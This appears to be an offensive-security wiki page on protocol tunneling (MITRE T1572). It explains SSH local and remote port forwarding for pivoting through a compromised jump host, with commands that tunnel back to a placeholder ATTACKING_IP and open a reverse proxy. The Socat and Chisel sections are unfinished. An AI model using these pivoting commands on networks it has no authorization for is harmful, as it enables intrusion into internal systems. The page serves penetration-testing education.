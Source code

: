 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT
{% tabs %}
{% tab title="Socat" %}
WORK_IN_PROGRESS
{% endtab %}
{% endtabs %}


### CHISEL
{% tabs %}
{% tab title="Chisel" %}
WORK_IN_PROGRESS
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}
{% embed url="https://tryhackme.com/room/wreath"%}



